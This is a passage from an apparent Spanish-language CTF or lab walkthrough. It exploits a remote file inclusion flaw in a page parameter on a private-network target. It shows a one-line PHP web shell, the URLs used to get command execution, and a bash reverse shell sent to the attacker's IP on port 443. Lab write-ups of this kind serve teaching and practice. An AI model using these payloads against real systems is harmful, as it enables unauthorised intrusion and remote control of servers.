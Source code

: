 ```ruby
http://192.168.1.88/index.php?page=http://192.168.1.73:8080/
```

Y nos llega una peticion:

![](/assets/img/quick/2.png)

Oberva que en la peticion que hizo, esta esperando por archivos con extension .php: **GET /.php HTTP/1.0**

Ahora para poder "subir" una web shell debemos de hacer lo mismo, pero indicarle un archivo php que queremos, en mi caso creare este:

```php
<?php system($_GET[cmd]); ?>
```
Y observa como se realizo la peticion correctamente

![](/assets/img/quick/3.png)

Pareciera que el archivo se incluyo, y que accediendo a: **http://192.168.1.88/shell.php** lo podremos ejecutar, pero en realidad no, debemos de hacerlo desde la misma URL de la siguiente forma

```ruby
http://192.168.1.88/index.php?page=http://192.168.1.73:8080/shell&cmd=id
```
Y hemos conseguido RCE

![](/assets/img/quick/4.png)

Ahora nos enviaremos una reverse shell con bash

```ruby
http://192.168.1.88/index.php?page=http://192.168.1.73:8080/shell&cmd=bash -c "bash -i >%26 /dev/tcp/<tu_ip>/443 0>%261"
```

![](/assets/img/quick/5.png)
